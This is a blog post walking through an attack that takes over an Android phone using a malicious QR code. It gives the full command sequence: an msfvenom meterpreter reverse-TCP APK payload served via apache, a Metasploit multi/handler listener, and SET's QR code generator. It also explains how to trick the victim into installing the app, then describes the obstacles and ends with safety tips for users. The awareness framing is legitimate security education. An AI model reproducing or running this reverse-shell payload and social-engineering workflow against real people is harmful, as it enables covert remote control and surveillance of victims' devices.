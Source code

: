 [![Andrea Rebora](https://miro.medium.com/fit/c/28/28/1*Sc5Du4sVyZkiv-1L4u8Mmw.jpeg)](https://medium.com/@andrearebora?source=post_page-----fc71428630e--------------------------------)


![](https://miro.medium.com/max/800/1*_La8XfVMVDi0igqWCki2aQ.png)

Getty Images / Bill Hinton

I want to begin this article with a disclaimer: the method I am going to illustrate is one of several. It is not completely automatic, meaning the target will have a role to play. Consequently, social engineering is a critical component. As a NortonLifeLock employee [explained](https://us.norton.com/internetsecurity-emerging-threats-what-is-social-engineering.html), social engineering is the act of deceiving someone into acting or divulging information, taking advantage of a victim’s natural tendencies and emotional reactions. In addition, the method might not work on every Android device. Security settings, presence of anti-viruses, and Google safety mechanisms are just a few of the possible obstacles to a successful attack.

**What is a QR code?**

The Quick Response code, or QR code, was invented in 1994 by Denso Wave, a Japanese company that produces automatic identification products, industrial robots, and programmable logic controllers. The code is a machine-readable data format; it was invented to track vehicles during manufacturing and designed to allow high-speed component scanning. A QR code consists of several black squares and dots which represent specific pieces of information. When a device scans the code, it translates the data into human-readable information.

Today, QR codes are used in a variety of industries and for multiple applications such as tracking purposes and [mobile tagging](https://www.techopedia.com/definition/23587/mobile-tagging), which is the practice of creating visual elements that can be recognized by smartphones and related devices. These codes can be used to write a message, open a Uniform Resource Identifier (URI), display information to the user, and so on. In China, for instance, [QR codes are quite popular](https://www.wired.com/story/the-curious-comeback-of-the-dreaded-qr-code/): WeChat users can point their camera at the dotted square to exchange contact information, interact with brands and celebrities, buy clothes and food, access the web, and so on.

The symbol versions of QR code range from Version 1 to Version 40. Each version has a specific number of modules or module configuration. A module is the black and white dots that create the code. A [configuration](https://www.qrcode.com/en/about/version.html) is the number of modules contained in a symbol, with Version 1 having 21 × 21 modules up to Version 40 with 177 × 177 modules. The versions increase by four additional modules per side. Standard QR codes can hold up to 3Kb of data.

**Scenario**

In this scenario, the threat actor wants to obtain access to his target’s smartphone. After careful information gathering, he discovers that the target is using an Android device. Among the several methods available, he decides to conduct his attack via QR code. The threat actor will use [Kali Linux](https://www.kali.org/about-us/) as his operating system (OS) and he will leverage the capabilities of [Metasploit](https://www.metasploit.com/) and of the [Social Engineering Toolkit (SET)](https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/).

**Step 1**

The first step is to use msfvenom to prepare the payload, the code that will allow the threat actor to obtain access to the target’s device.

Open the terminal and type the following: “msfvenom -p android/meterpreter/reverse\_tcp lhost=youripaddress lport=4444 r >/var/www/html/test.apk”

![](https://miro.medium.com/max/30/1*sy0X7FvilL6bEgFwquEXGw.png?q=20)

Lhost (local host) indicates the IP that the payload will use to connect back to the threat actor’s machine. If, for instance, the machine and the smartphone are connected to the same Wi-Fi, the IP can be found by typing in the terminal “ifconfig” and checking the “inet” (internet address) of the Wi-Fi card. If the smartphone is using mobile data or is connected to another router, the threat actor must use the public IP of his machine. It can be found by visiting whatismyipaddress.com.

**Step 2**

In the terminal, type “service apache2 start” and press \[Enter\]. Now, it is time to launch Metasploit. To properly run this tool, there are a few steps that should be followed. First, type “service postgresql start” and press \[Enter\]. Next, run the command “msfdb init”. Finally, run “msfconsole” to launch the tool.

![](https://miro.medium.com/max/30/1*KyUxjiWxn0YrhbmOVXrF5A.png?q=20)

**Step 3**

Type “use exploit/multi/handler” and press \[Enter\]. Then, type “set payload android/meterpreter/reverse\_tcp” and press \[Enter\]. Now, type “show options” to see the information needed to execute the attack.

![](https://miro.medium.com/max/27/1*F1JfjtimWbcp_v7MslTcMg.png?q=20)

As you can see from the screenshot, LHOST must be provided. LHOST, as mentioned, is the IP address used by the threat actor. To provide the information, type “set lhost” followed by your IP address. The format is “set \[space\] lhost \[space\] youripaddress”. As a final input, type “exploit” and press \[Enter\]. Remember, do not close the terminal.

**Step 4**

Open another terminal, type “setoolkit”, and press \[Enter\].

![](https://miro.medium.com/max/30/1*X5EZhfpyN5noccUJnoJ0FA.png?q=20)

Type “1” (to select “Social-Engineering Attacks”) and press \[Enter\].

![](https://miro.medium.com/max/26/1*KzMU_4x2PbdlBW_-Gkz9Mg.png?q=20)

Next, type “8” (to select “QRCode Generator Attack Vector”) and press \[Enter\]. When requested, type the IP address you used before followed by “/” and the payload, in this case “test.apk”. The format is the following: “youripaddress/nameofthepayload.apk”.

![](https://miro.medium.com/max/30/1*SErFiiNOUQx6wFpxhicxDw.png?q=20)

**Step 5**

Exit SEToolkit and type “cd /root/.set/reports” to find the folder where the QR code has been saved. At this point, the threat actor must use social engineering to convince the target to scan the code.

**Step 6**

The target scans the QR code. He receives a request to download the application.

![](https://miro.medium.com/max/19/1*hSQ0UTFjQN9behFiVs8qPw.png?q=20)

He is convinced that he is downloading an application he needs. Therefore, he follows the steps and successfully installs the app.

![](https://miro.medium.com/max/19/1*ZIGutt5kS_GfDcER2sIjFA.png?q=20)

**Step 7**

The moment the app is installed on the target’s device, the threat actor notices that a meterpreter session is now open. Typing “sysinfo” allows him to check if the operation has been successful. After confirming the positive results, he types “help” to visualize the many commands that can be executed.

![](https://miro.medium.com/max/28/1*d8uFuQqIQcA_XhXj9Xf7kA.png?q=20)

![](https://miro.medium.com/max/30/1*dmheGtss_-FAgQdL-NQuBA.png?q=20)

![](https://miro.medium.com/max/30/1*oNUZKXKunsRdBaqHMX7u7A.png?q=20)

**Known obstacles**

There are a few obstacles that must be addressed. Social engineering is halfway between a skill and an art. It is not easy, but depending on the situation, anyone can be tricked. Tiredness, hurriedness, boredom, anger, there are several emotions and states of mind that can be exploited. However, there are also technical challenges that might compromise the outcome of the attack.

First, not all QR scanners search the link directly. I used four scanners, and two of them searched the link on Google instead of searching it directly. Second, security mechanisms might hinder the process. If the target does not allow the installation of apps from unknown sources, the file will not be downloaded. Moreover, during the installation, Play Protect warned me twice regarding my actions. It happens that users just keep tapping without reading to make the notifications go away, but a more rational user might think again about downloading the file. In addition, before installing the app, a list of permissions is displayed, and the user might ask himself why the app needs access to virtually everything.

![](https://miro.medium.com/max/18/1*HZD6USilbLaU_y_a2e5sBA.png?q=20)

![](https://miro.medium.com/max/18/1*bEQmAKuiumET17HHUZ9I7g.png?q=20)

Third, the name. As you can see from the screenshots, “MainActivity” is very likely to alert most users. Moreover, the app is visibly different from a ‘classic’ one.

![](https://miro.medium.com/max/17/1*nYZEmI_ax7DCcDaDccchxA.png?q=20)

**Conclusion**

While there are methods to avoid the obstacles I listed, it is likely that a user would not download, or install, the application if multiple alerts warn him of suspicious activity. A situation where the threat actor has access, even briefly, to the target’s smartphone might provide the perfect opportunity to download the malicious file. It takes a few seconds and, when the app is installed, the threat actor could hide it in an unusual directory, possibly hidden. The moment the meterpreter session is open, the threat actor can further exploit the device, including sending the same QR code to other users via the target’s device.

QR codes, as demonstrated, can be used as a vector to compromise your device. The method I explained requires the target to manually download the malicious file, but many other exploits are automatic and stealthy and do not require further actions after scanning the code. Be careful about what you scan. Even a seemingly innocent QR code could lead to a harmful outcome. When you scan a code, think carefully about the following:

1\. Necessity. Do I really need to scan this code? Or am I just curious?

2\. The need to use a QR code. Are there other download methods? Is the source of the QR code a reputable one?

3\. The permissions. How many permissions is the app asking me? Is it rational for such an app to ask access to these sources?

4\. Security alerts. If you see an alert, stop and read. Remember, haste makes waste.

I hope this article provided you with a bit of entertainment and useful suggestions.